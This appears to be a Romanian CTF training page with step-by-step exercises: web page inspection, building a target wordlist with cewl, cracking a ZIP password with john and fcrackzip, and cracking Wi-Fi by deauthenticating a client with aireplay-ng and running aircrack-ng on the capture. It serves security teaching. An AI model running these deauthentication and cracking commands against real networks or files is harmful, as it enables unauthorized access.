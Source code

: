 ```yaml
---
title: ixodron 2024 - Demo 2
date: 2024-09-03 09:00:00
categories:
  - CTFs
  - ixodron 2024
  - 2. Demo
tags:
  - CTFs
  - ixodron 2024
  - Demo
toc: true
---
```


---
> Al doilea set de exerciții din seria de `Demo`-uri

---
<!-- more -->

<br>

## 1. Server web
> Executarea unor teste de securitate de bază pe un server web pentru a-i înțelege caracteristicile

**1.1. Codul sursă**
Deschide pagina în browser la adresa `https://chronossec.site`
Vezi codul sursă: `click-dreapta`, `View page source`

> **TASK**: Ce generator de site este folosit? Ce versiune este? (cuvinte cheie: `generator`, `version`)

<br>

**1.2. Developer tools - network tab**

Deschide Developer Tools: `Fn + F12` sau `CTRL+SHIFT+I`
Selectează `Network Tab`
Reîncarcă pagina pentru a vedea traficul de date: `CTRL+R`

> **TASK**: Selectează doar imagini și salvează logo-ul paginii.

<br>

**1.3. Developer tools - storage tab**

Deschide Developer Tools: `Fn + F12` sau `CTRL+SHIFT+I`
Selectează `Storage`
Vezi secțiunea de `Cookies`

> **TASK**: Șterge cookie-urile din browser.

<br>

**1.4. Certificat SSL**

Iconița cu lacăt 🔒
`Connection secure`
`More information`
`View certificate`

> **TASK**: Care este utilizarea cheii? (`Key usage`)


<br>
<br>


## 2. Parole personalizate
> Crearea unor liste de parole personalizate pentru ținta atacului

```bash
mkdir -p /home/kali/demo-1/wordlist/
cd /home/kali/demo-1/wordlist/
```

**Instalează aplicația `cewl`**
```bash
sudo apt install cewl -y
cewl --help
```

**Generarea unei liste de parole personalizate pentru site-ul web ales**
```bash
cewl https://chronossec.site -w wordlist.txt -m 5 -d 1 -v
```
| Argument  | Descriere |
| -- | -- |
| `-w wordlist.txt` | numele fisierului ce va fi generat |
| `-m 5` | numarul minim de caractere al cuvintelor selectate |
| `-d 1` | depth - adancimea linkurilor verificate |
| `-v` | verbose - detalii despre process |

**Verificarea listei de parole generate**
```bash
cat wordlist.txt
wc -l wordlist.txt
```


<br>
<br>


## 3. Arhiva ZIP
```bash
mkdir -p /home/kali/demo-1/archive
cd /home/kali/demo-1/archive
```
> Spargerea unei arhive protejate cu parolă
**Descarcă fișierul: <a href="https://chronossec.site/uploads/ixodron-ctf/demo-1/archive.zip" target="_blank">link</a>.**
```bash
wget https://chronossec.site/uploads/ixodron-ctf/demo-1/archive.zip /home/kali/demo-1/archive/archive.zip
```

**Extrage lista extensivă de parole, `rockyou.txt`**
```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

**Sparge parola**

- `Metoda 1`
> Folosim `zip2john` pentru a converti parola arhivei într-un format compatibil cu `john`.
```bash
zip2john archive.zip > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

- `Metoda 2`
> Utilizăm `fcrackzip` pentru atac de dicționar direct asupra arhivei.
```bash
sudo apt install -y fcrackzip
```
```bash
fcrackzip -D -v -u -p /usr/share/wordlists/rockyou.txt archive.zip
```
| Argument | Descriere|
| -- | -- |
| `-D` | atac tip Dicționar |
| `-v` | mai multe informații (verbos) |
| `-u` | încearcă să dezarhiveze cu fiecare parolă generată |
| `-p` | fișierul cu lista de parole |

**Extrage fișerul** (înlocuiește parola găsită)
```bash
unzip -P password archive.zip
```


<br>
<br>


## 4. Wi-Fi
> Spargerea parolei unei rețele Wi-Fi protejate

**4.1. Inserarea adaptorului de rețea (antena)**
<br>

**4.2. Configurarea interfeței de rețea**
```bash
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 down
iwconfig
```
```bash
sudo airmon-ng start wlan0
airmon-ng check kill
```

**4.3.Alegerea rețelei și clientului țintă**
```bash
sudo airodump-ng wlan0
```
```
sudo airodump-ng --bssid <INPUT> --channel <INPUT> --write capturefile wlan0
```

**4.4. Deauthentificarea clientului de la rețea**
> Dacă trimitem un număr mic de pachete de deautentificare, clientul nu-și va da seama că a fost deconectat, 
    iar noi vom putea intercepta direct parola criptată trimisă de acesta către router (access point)
```bash
sudo aireplay-ng --deauth 4 -a <target_MAC> -c <client_MAC> wlan0
```

**4.5. Spargerea parolei criptate**
```bash
sudo aircrack-ng capturefile.cap -w /usr/share/wordlist/rockyou.txt
```

<br>
<br>

<p style="text-align:center">
  <b>NEXT</b>: <a href="/CTFs/ixodron/ctf/" target="_blank">CTF</a>
</p>

---
---